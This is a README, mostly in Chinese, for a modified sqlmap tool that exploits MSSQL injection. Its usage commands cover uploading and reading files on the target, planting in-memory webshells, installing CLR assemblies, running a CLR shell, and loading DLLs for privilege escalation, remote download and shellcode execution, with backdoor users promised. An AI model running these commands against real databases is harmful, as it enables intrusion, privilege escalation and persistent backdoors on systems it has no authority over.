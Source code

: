 ## sqlmapxplus

### 简介

在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。

sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。

1. **更新说明**：
   新增开启ole功能
   新增指定文件读取功能
   新增指定文件移动功能
   新增指定文件复制功能
   新增指定文件删除功能
   新增指定文件位置判断功能
   新增存储过程查询功能
   新增删除存储过程功能
   修改ole上传方式
   修改clr安装流程
   修改clr命令执行方式
   去除中文注释导致的报错
3. 针对实际网络过程中dll传输损失导致clr安装失败的问题（临时解决方法）
   发现在原--install-clr功能中使用的clr dll太大，在实战中往往需要注入的大量次数，如果注入过程中的某一次出现错误，会导致dll落地失败，无法成功打入dll，现将原本一键自动安装的流程去除，修改为用户需要根据实际的目标情况，自定义的dll安装
   临时增加 --check-file 选项判断dll文件是否成功落地目标主机
   临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功

4. 为什么使用上传过程中会出现dll放大的问题
   转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍

5. 自定义clr的问题（已完成）
   install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
   clr_shell模式下执行clr函数的方式修改为： 用户自定义function 传入参数（已完成）

### Update

```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr       install clr
--clr-shell         clr shell 
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 
```

### Usage

**about ole**:

```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 
```

**other function:**

```
# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr clr_function_name

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr clr_function_name

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```

**about clr**:

```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader​
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl
```

### 其他

公众号：赛博大作战

知识星球：渗透测试宝典

旧版本的参考链接：https://mp.weixin.qq.com/s/nTYPKnl9XQLWhZ43sQV3xw

新版本的参考链接：https://mp.weixin.qq.com/s/6RpxXitEPt8rA1DFb56Oxw

### References

https://github.com/sqlmapproject/sqlmap 

https://github.com/uknowsec/SharpSQLTools

https://github.com/Anion3r/MSSQLProxy

https://mp.weixin.qq.com/s/X0cI85DdB17Wve2qzCRDbg

https://yzddmr6.com/posts/asp-net-memory-shell-httplistener/
